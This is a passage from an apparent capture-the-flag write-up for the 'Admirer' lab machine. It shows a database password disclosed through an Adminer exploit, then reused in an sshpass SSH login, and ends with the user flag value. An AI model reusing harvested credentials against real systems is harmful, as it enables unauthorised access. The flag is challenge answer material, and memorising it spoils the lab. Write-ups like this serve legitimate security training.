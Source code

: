 ![exploit-adminer.png](files/exploit-adminer.png)

It resulted in the following disclosure:

~~~
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
~~~

## SSH

As it happens that the same credentials are used for different services, I tried to connect against the SSH service using the MySQL credentials found, and it worked.

~~~
$ sshpass -p "&<h5b~yK3F#{PaPB&dA}{H>" ssh waldo@10.10.10.187
~~~

## User flag

From here, I was able to read the user flag:

~~~
waldo@admirer:~$ cat user.txt 
4cf36ab2710c6ad21f25b7143a0af4df
~~~

